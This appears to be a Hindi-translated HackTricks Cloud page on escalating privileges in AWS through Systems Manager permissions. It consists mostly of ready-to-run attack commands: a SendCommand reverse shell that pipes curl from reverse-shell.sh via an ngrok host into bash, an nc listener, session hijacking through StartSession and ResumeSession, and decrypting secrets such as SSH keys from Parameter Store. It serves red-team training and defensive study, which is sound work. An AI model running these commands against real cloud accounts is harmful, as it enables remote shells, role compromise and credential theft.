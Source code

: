 # AWS - SSM Privesc

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}

## SSM

SSM के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

एक हमलावर जिसके पास अनुमति **`ssm:SendCommand`** है, वह **Amazon SSM एजेंट** चलाने वाले इंस्टेंस में **कमांड निष्पादित कर सकता है** और इसके अंदर चल रहे **IAM भूमिका को समझौता कर सकता है**।
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
यदि आप पहले से ही समझौता किए गए EC2 उदाहरण के भीतर विशेषाधिकार बढ़ाने के लिए इस तकनीक का उपयोग कर रहे हैं, तो आप बस निम्नलिखित के साथ स्थानीय रूप से रिव शेल कैप्चर कर सकते हैं:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**संभावित प्रभाव:** चल रहे उदाहरणों के साथ जुड़े EC2 IAM भूमिकाओं पर सीधे प्रिवेस्क।

### `ssm:StartSession`

एक हमलावर जिसके पास अनुमति **`ssm:StartSession`** है, वह **Amazon SSM एजेंट चला रहे उदाहरणों में SSH जैसी सत्र शुरू कर सकता है** और **इसके अंदर चल रही IAM भूमिका को समझौता कर सकता है।**
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
सत्र शुरू करने के लिए आपको **SessionManagerPlugin** स्थापित करना होगा: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**संभावित प्रभाव:** चल रहे उदाहरणों के साथ जुड़े EC2 IAM भूमिकाओं पर सीधे प्रिवेस्क।

#### ECS पर प्रिवेस्क

जब **ECS कार्य** **`ExecuteCommand` सक्षम** होते हैं, तो पर्याप्त अनुमतियों वाले उपयोगकर्ता `ecs execute-command` का उपयोग करके कंटेनर के अंदर **एक कमांड निष्पादित** कर सकते हैं।\
[**दस्तावेज़**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) के अनुसार, यह उस उपकरण के बीच एक सुरक्षित चैनल बनाकर किया जाता है जिसका उपयोग आप “_exec_“ कमांड शुरू करने के लिए करते हैं और लक्षित कंटेनर के साथ SSM सत्र प्रबंधक। (इस कार्य के लिए SSM सत्र प्रबंधक प्लगइन आवश्यक है)\
इसलिए, `ssm:StartSession` वाले उपयोगकर्ता उस विकल्प को सक्षम करके **ECS कार्यों के अंदर एक शेल प्राप्त** कर सकेंगे, बस चलाकर:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**संभावित प्रभाव:** `ExecuteCommand` सक्षम चल रहे कार्यों से जुड़े `ECS` IAM भूमिकाओं के लिए सीधे प्रिवेस्क।

### `ssm:ResumeSession`

एक हमलावर जिसके पास अनुमति **`ssm:ResumeSession`** है, वह **Amazon SSM एजेंट के साथ चल रहे उदाहरणों में SSH जैसी सत्र को फिर से शुरू कर सकता है** जिसमें **अविच्छेदित** SSM सत्र स्थिति है और **इसके अंदर चल रही IAM भूमिका को समझौता कर सकता है।**
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**संभावित प्रभाव:** चल रहे उदाहरणों के साथ जुड़े EC2 IAM भूमिकाओं पर सीधे प्रिवेस्क के लिए SSM एजेंट चल रहे हैं और डिस्कनेक्टेड सत्र।

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

उपरोक्त अनुमतियों के साथ एक हमलावर **SSM पैरामीटर** की सूची बनाने और **उन्हें स्पष्ट पाठ में पढ़ने** में सक्षम होगा। इन पैरामीटर में आप अक्सर **संवेदनशील जानकारी** जैसे SSH कुंजी या API कुंजी पा सकते हैं।
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**संभावित प्रभाव:** पैरामीटर के अंदर संवेदनशील जानकारी खोजें।

### `ssm:ListCommands`

इस अनुमति के साथ एक हमलावर सभी **कमांड** सूचीबद्ध कर सकता है और उम्मीद है कि उन पर **संवेदनशील जानकारी** पाएगा।
```
aws ssm list-commands
```
**संभावित प्रभाव:** कमांड लाइनों के अंदर संवेदनशील जानकारी खोजें।

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

इन अनुमतियों के साथ एक हमलावर सभी **कमांड** की सूची बना सकता है और **आउटपुट** को पढ़ सकता है, उम्मीद है कि इसमें **संवेदनशील जानकारी** मिलेगी।
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**संभावित प्रभाव:** कमांड लाइनों के आउटपुट के अंदर संवेदनशील जानकारी खोजें।

### Codebuild

आप SSM का उपयोग करके एक कोडबिल्ड प्रोजेक्ट में भी जा सकते हैं जो बनाया जा रहा है:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
